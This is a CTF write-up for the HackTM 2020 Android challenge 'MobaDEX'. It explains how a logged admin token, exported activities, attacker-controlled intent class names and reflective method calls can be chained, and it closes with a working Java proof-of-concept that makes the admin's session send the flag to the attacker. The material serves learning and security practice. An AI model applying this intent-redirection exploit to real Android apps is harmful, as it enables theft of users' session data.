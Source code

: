 # MobaDEX

- CTF: **HackTM CTF Finals 2020**
- Difficulty: **Medium**
- Challenge Files: 
- Challenge Page: 

# Writeup

- Description: **It's december, HackTM CTF is rolling, what a time to make new friends. Hop on and join the latest and hottest Android Messaging Service: MobaDEX. MobaDEX allows you to make friends with other CTF players exchange Mobs in a very well-secured environment. It is prohibited to exchange flags.**

- Introduction: By simply running the application on a mobile device, we can get a very good overview of the application. It is an Android Messaging Application, based on a concept similar to Snapchat. The application allows the user to `Register an Account`, `Autenthicate`, `Add Friends`, `Write Moba` and `Read Moba` (the term `Moba` is being used to name the message that is being transferd from one account to another).

- Analysis: 
  * Now that we know what the application is about, let's take a look at how the application works. Looking at the `AndroidManifest.xml` file, we can see that there are multiple Activities declared: `.ProcessMoba`, `.SendMoba`, `.ui.main.ShowMoba`, `.LoginActivity`, `.RegisterActivity`, `.MainActivity`. Somthing that is particularly interesting is that only `RegisterActivity`, `LoginActivity`, and `SendMoba` activities are being exported. We will keep that in mind.
  * Looking at the `RegisterActivity`, we can see that it takes the input from the input fields (name / email / password) and passes it via a `POST` request to: `http://35.246.216.38:8686/api.php`. So the application is using an `API` server to handle the accounts and messages.
  * Now let's take a look at the `SendMoba` Acitvity, after all, the exported activities are some of the easiest entrypoint in the application. We can see that the application gets an `intent` and is expecting to contain `moba_user_token`, `moba_friend_token` and `moba_data` extras. The data is being send to `do_send_moba` which uses a custom serialization method to encode the `moba_data` intent and then alongside user's token and friend's token sends the data to the server. But what is a token? We can see that there is a class called `Session` which has the following structure:
  ```java
  public class Session {

      private String Flag = "HackTM{local_flag}";
      private String token;
      private static Session instance = null;

      protected Session() {
          this.token = "";
      }
      public String getToken(){
          return this.token;
      }
      public String getFlag(){ return this.Flag; }
      public void setToken(String token){
          this.token = token;
      }

      public static Session getInstance() {
          if(instance == null) {
              instance = new Session();
          }
          return instance;
      }
  }
  ```
  So the application holds user's token inside a singleton class called `Session`.
  * Let'stake a look at the `Add Friend` Activity. It looks pretty standard, takes an username and send it to the API server alongside user's token. However, something that later comes into our eyes is an if statement:
  ```java
  if(friend_username.equals("Admin_FeDEX")){
    updateTextView("Cannot add Admin!");
    Log.d("[MobaDEX]", myResponse);
  }
  ```
  So we can see that we are not allowed to add the user `Admin_FeDEX` as a friend. However, trying to add `Admin_FeDEX` as a friend and printing out the logs will display something interesting: 
  ```log
  2020-12-15 21:05:06.904 3012-3012/com.example.mobadex D/[MobaDEX]: 682314393318725
  ```
  This is the admin's token. So although we cannot the admin to our friends list, we are still able to send him a `Moba` by invoking the `SendMoba` activity and put the admin's token inside `moba_friend_token`.
  * We will keep that in mind, and analyze the last main component: `ReadMobaFragment`. It makes a call to the API and loads all the `Mobs` of the user with the token specified in the parameter. Then it sets an `onClick`listener where the `data` and the `id` of the `Moba` is being sent over to the `ProcessMoba` class. Inside the `ProcessMoba` we can see that data is being deserialized and the `moba_display_class` and `moba_display_package` and `moba_display_content` extras are being extracted. Then the information is being stored inside an intent as follows:
  ```java
  Intent intent = new Intent();
  intent.setClassName(moba_package, moba_class);
  intent.putExtra("display_content",moba_content);
  intent.putExtra("display_id",moba_id);
  ```
  This piece of code is very interesting because it sets the `ClassName` to a value that we can control by sending a custom `Moba`. We will keep that as well in mind. After that, there are some extra checks to see if some other extras are present inside the bundle. One thing that stands out is:
  ```java
  if(data.getString("moba_data") != null){
    String get_session_method = data.getString("moba_data");
    String extra_data = "";
    try {
        Method method = sess.getClass().getMethod(get_session_method);
        extra_data = (String)method.invoke(sess);
    } catch (SecurityException e) {
        Log.d("[MobaDEX]","Error:" + e);
        finish();
    }
  ...
  ```
  This piece of code allows us to get our own token if we supply the string `getToken` inside `moba_data`. But at the same time, if we put `getFlag` we are able to read `session.Flag`.
  
- Exploitation
  * With the final discovery, everything is clear. We need to start the `SendMoba` activity and make sure that the `Moba` is being sent to the Admin. Then, we would like instead of `ShowMoba` (which is the default class used when reading a Moba) to use `SendMoba` in order to be able to send the flag back to us. Then we will put the value "getFlag" inside `moba_data` and we're done.
  * Code
  ```java
  @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // EXPLOIT POC
        Intent i = new Intent();

        i.setComponent(new ComponentName("com.example.mobadex","com.example.mobadex.SendMoba"));

        Intent intent_data = new Intent();
        intent_data.putExtra("moba_display_content","PWNED by FeDEX"); // data that will be printed
        intent_data.putExtra("moba_display_package", "com.example.mobadex"); // PACKAGE
        //  intent_data.putExtra("moba_display_class","com.example.mobadex.ui.main.ShowMoba"); // CLASS
        intent_data.putExtra("moba_display_class","com.example.mobadex.SendMoba"); // CLASS
        intent_data.putExtra("moba_user_token","682314393318725"); // VICTIM (send back from admin to me)
        intent_data.putExtra("moba_friend_token","538622981120038"); // ATTACKER
        intent_data.putExtra("moba_data","getFlag"); // function to trigger

        i.putExtra("moba_user_token","538622981120038"); // ATTACKER (send malicious payload from me to admin)
        i.putExtra("moba_friend_token","682314393318725"); // VICTIM
        i.putExtra("moba_data",intent_data);

        startActivity(i);
    }
  ```
